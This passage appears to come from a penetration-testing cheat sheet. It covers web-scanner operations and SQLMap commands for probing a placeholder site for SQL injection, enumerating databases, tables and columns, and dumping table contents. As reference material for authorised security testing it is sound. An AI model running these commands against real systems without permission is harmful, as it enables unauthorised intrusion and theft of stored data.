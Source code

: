 #### Common Operations
```
# Quick scan
1. Enter target URL
2. Right-click > "Attack" > "Active Scan"

# Manual exploration
1. Enable proxy
2. Browse target application
3. Review site map

# Spider scan
1. Right-click on target
2. Select "Spider"
3. Configure options and start
```

## SQL Injection

### SQLMap

#### Basic Usage
```bash
# Test a parameter in a GET request
sqlmap -u "http://target.com/page.php?id=1"

# Test a parameter in a POST request
sqlmap -u "http://target.com/page.php" --data="id=1"

# Test with cookies
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=1234567890abcdef"

# Test with custom headers
sqlmap -u "http://target.com/page.php" --headers="User-Agent: Mozilla/5.0\nReferer: http://target.com"
```

#### Database Enumeration
```bash
# Get databases
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Get tables from a database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# Get columns from a table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump data from a table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump
```
